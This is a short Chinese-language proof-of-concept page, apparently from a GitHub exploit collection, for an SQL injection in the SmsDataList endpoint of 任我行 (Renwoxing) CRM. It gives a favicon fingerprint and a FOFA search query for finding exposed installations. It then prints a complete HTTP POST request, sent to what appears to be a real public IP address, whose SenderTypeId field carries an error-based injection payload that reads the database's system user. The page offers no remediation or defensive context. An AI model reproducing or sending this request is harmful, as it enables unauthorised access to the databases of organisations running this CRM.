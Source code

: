 # 任我行CRM SmsDataList SQL注入

    ![img](http://112.53.236.114:81/favicon.ico)

特征favicon.ico

## fofa

```
app="任我行-CRM"
```

## poc

```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 101.200.41.166:8888
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 132

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(system_user)) AND 'CvNI'='CvNI
```
